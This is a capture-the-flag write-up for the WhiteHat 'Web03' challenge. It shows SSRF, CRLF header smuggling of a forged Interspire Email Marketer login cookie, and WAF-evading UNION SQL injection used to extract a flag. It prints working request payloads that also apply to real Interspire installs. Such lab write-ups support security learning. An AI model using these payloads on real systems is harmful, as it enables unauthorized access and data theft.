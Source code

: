 Web03  
Description: None  
web03.grandprix.whitehatvn.com:1337  
Solves: 10  
Points: 410  

--------------------------------------

The challenge starts with a web app that asks for a Host and a Urlpath. These are
used to load remote web pages in the style of:

Host: 202.182.120.169:1337
Urlpath: index.php
Request = http://202.182.120.169:1337/index.php

![initialchallenge](screenshots/initialchallenge.png)

In the HTML comments of the page:  

`<!--<label>@Buxu: Let's try to access admin page</label></br> -->`  

After searching for /admin related pages on the website and finding nothing,
I did a port scan of the localhost network. Using Burp Intruder I checked every
port with requests:

Host: 127.0.0.0:{var}
Urlpath: admin/

Eventually I discovered another web app running on 127.0.0.1:8088.

![Port8088](screenshots/port8088.png)

From here on, I used Burp
repeater for all of my requests. It comes back in slightly encoded HTML, but I was able to roughly
render it using the following site:

https://htmledit.squarefree.com/

The annoying process was:
1. Copy output from HTTP Response into top box of htmledit
2. Copy output from html edit back into the input for htmledit
3. Enjoy my not-so-beautifully rendered HTML

![htmlrender](screenshots/htmlrender.png)

At the time of writing this, I'm noticing that the output looks a LOT better if
you receive it through the challenge app instead of through Burp. Oh well!

Back to exploiting:

The  web app on 8088 is a service called Interspire Email Marketer. After some quick
googling, I found the following on exploitdb:

https://www.exploit-db.com/exploits/44513/

TLDR; there's a master cookie that should let us bypass auth. Awesome! Except it's SSRF,
so how to control the cookie...? CRLF!

(From here on, the Host is always "127.0.0.1:8088")

We can send requests in the following style:

Urlpath = `admin/index.php HTTP/1.1\r\nCookie: mycookie=foobar\r\n`

Using this format and the god cookie, we get the following ugly request:

```
admin/index.php \r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

After doing the render magic, it's shown that I suddenly have admin access (as buxuwa). Yay!

![admin](screenshots/adminaccess_1.png)
![buxuwa](screenshots/buxuwa.png)

I got stuck here for a while, trying to find a flag in the contact lists or e-mails. After giving up on that,
I found another vulnerability in Interspire Email Marketer on exploitdb:

https://www.exploit-db.com/exploits/37935/

There's a sqlinjection via the dynamiccontenttags Addon! We just need to use a payload of:

`?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1'+UNION+Select+1,2,3,4-- -`

When trying to get this to work, I quickly discovered there's a WAF that prevents certain
common SQLi commands from being sent via the challenge webapp.
`', ", UNION, OFFSET` were all forbidden.

![waf](screenshots/waf.png)

However, URL encoding any of these characters worked perfectly.
`UNION` becomes `%55NION` (%55 == 'U')
`'` becomes '%27'

(I've changed the 2 to 'Hello Hackers' for this screenshot)

![sqli](screenshots/sqli.png)
![rendered_sqli](screenshots/rendered_sqli.png)


From here it's very standard MySQL injection. Using the payloads here:
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

I was able to enumerate through databases, tables, and columns using the '2' in the UNION query above as my
output point. (anything in that spot will be displayed in the response).

It's discovered that we're in database "emailmarketer" and there's a table called "flag_wh"
with column "s3cret":

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+Select+1,table_name,3,4+FROM+information_schema.tables+WHERE+table_schema+=%27emailmarketer%27--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag_wh](screenshots/flag_wh.png)
![flag_wh_rendered](screenshots/flag_wh_rendered.png)

Screenshot and query above shows finding the flag_wh table.


So now it's as easy as getting `s3cret` from `flag_wh`:

```
admin/index.php?Page=Addons&Addon=dynamiccontenttags&Action=Edit&id=-1%27+%55NION+SELECT+1,s3cret,3,4+FROM+flag_wh--%20- HTTP/1.1\r\nCookie: IEM_CookieLogin=YTo0OntzOjQ6InVzZXIiO3M6MToiMSI7czo0OiJ0aW1lIjtpOjE1MDU0NzcyOTQ7czo0OiJyYW5kIjtiOjE7czo4OiJ0YWtlbWV0byI7czo5OiJpbmRleC5waHAiO30%3D\r\n
```

![flag](screenshots/flag.png)
![flag](screenshots/flag_rendered.png)

`WhiteHat{cbb66097f69c3938bfd4a157ab4ebe762a16c1b1}`

After solving it, I was contacted by an admin who informed be that using dynamiccontenttags was not
the intended solution. Apparently there's some other method to exploit it,
but I have no idea what it is.

